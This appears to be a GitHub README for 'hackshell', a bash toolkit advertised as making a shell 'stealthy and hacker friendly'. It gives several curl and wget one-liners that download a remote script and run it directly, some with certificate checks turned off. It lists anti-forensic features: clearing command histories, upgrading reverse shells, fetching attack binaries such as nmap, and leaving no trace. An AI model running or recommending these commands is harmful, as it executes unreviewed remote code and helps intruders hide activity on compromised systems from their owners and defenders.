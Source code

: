 # hackshell
Make BASH stealthy and hacker friendly with lots of bash functions

Usage:
```shell
 source <(curl -SsfL https://thc.org/hs)
```

```shell
 source <(curl -SsfL https://github.com/hackerschoice/hackshell/raw/main/hackshell.sh)
```

Ignore SSL / Certificate warnings:
```shell
 source <(wget --no-check-certificate -q -O- https://github.com/hackerschoice/hackshell/raw/main/hackshell.sh)
```

```shell
 source <(curl -kSsfL https://github.com/hackerschoice/hackshell/raw/main/hackshell.sh)
```

Some features:
*  unsets HISTFILE, SSH_CONNECT, wget/redis/mysql/less-HISTORY, ...
*  Upgrates to PTY shell (if reverse shell)
*  Creates hacker-friendly shortcuts, bash-functions and aliases
*  Static binary download by simple `bin <command>` (e.g. `bin nmap`)
*  Does not write ANY data to the harddrive
*  Leaves no trace
 
![hackshell](https://github.com/user-attachments/assets/fe4e9f4c-d0f6-4886-8f2f-ef7e3f86b406)

